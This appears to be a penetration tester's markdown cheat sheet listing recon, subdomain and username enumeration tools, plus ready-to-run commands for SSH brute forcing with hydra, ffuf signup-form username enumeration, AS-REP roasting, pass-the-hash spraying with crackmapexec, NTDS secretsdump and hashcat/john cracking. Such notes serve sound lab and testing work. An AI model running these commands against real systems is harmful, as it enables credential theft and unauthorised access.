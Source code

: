 ## Image OSINT
- `exiftool`
- google image search - reverse-search images

## Website
  - `whois`
  - [BuiltWith](https://builtwith.com)
  - [crt.sh](https://crt.sh/)
  - [Shodan](https://shodan.io)
  - [Wayback Machine](https://web.archive.org/)
  - [Wappalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
	    
## Subdomains:
  - `assetfinder url.com`
  - `sublist3r -d url.com`
  - **theHarvester**
    - `theHarvester -d website.com -b all -l 500`
        - limits to 500 searches
  - `dnsrecon`
  - [Subfinder](https://github.com/projectdiscovery/subfinder)
  - [httprobe](https://github.com/tomnomnom/httprobe)
  - `amass enum -d url.com`
  - [crt.sh](https://crt.sh/)

## Email Addresses
- **Username enumeration**
  - Go to the sites, find names
  - **username-anarchy**
  - `./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt`
  - **theHarvester**
    - `theHarvester -d url.com -b all -l 500`

## Passwords
  - **Dehashed**
  - [HaveIbeenpwnd](https://haveibeenpwned.com/)
  - `cewl` - pulls words from a site that can be used as a password
  - **Burpsuite** to intercept and attempt logins
  - **Brute force** 
    - **hydra**
	    - `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://IP -t 4 -V
		- 4 is 4 threads`
		  - -V is for verbosity
    - **FUFF**
      - `ffuf -w /usr/share/wordlists/seclists/SecLists-master/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.10/loginportallocation/signup -mr "error message such as username already exists"`
      	- -x is the request method
	      - this will normally be a GET request but can be a POST request
      	- -d is the data were sending
	      - ie username, email, password and cpassword
		    - if were only getting the username here we put FUZZ after username and x for the others
        - -H adds headers to the request
	  	- -mr adds the error info
    	- -u is the url location
    	- can add >> validusernames.txt at the end for it to put them in a file for you


## Hash Cracking
- **Hash Identifier**
	- hash-identifier - built in Kali tool to check hashed passwords
- **hashcat** 
	- `hashcat -m 0 {hash file} /usr/share/wordlists/rockyou.txt`
- **Johntheripper**
	- `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
	- Can save the hash into a file called hash and use John the Ripper with rockyou
	- `john hash --format=krb5asrep`
	- update above to be whatever hash format, this is for kerberos
	- another john example:
		- `john hash --fork=4 -w=/home/user/rockyou.txt`
		- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
- **Check out account lockout policy:**
	- `ldapsearch -D 'DOMAIN\support' -w '#00^Domain' -p 389 -h IP - b "dc=domain,dc=local" -s sub "*" | grep lockoutThreshold`
	- lockout threshold of 0 means unlimited
- **Get Hash:**
	- Impacket can be used to request a TGT
		- `GetNPUsers.py domain.local/username -dc-ip IP -no-pass`
 		- `impacket-GetNPUsers -no-pass -usersfile usernames.txt -dc-ip IP domainname/`
- **With Hashes:** 
	- Spray with crackmap:
		- `cme smb 10.0.0.12 -u users -H hashes`
		- this will spit out any working username: password
- **Secrets dump:**
	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`
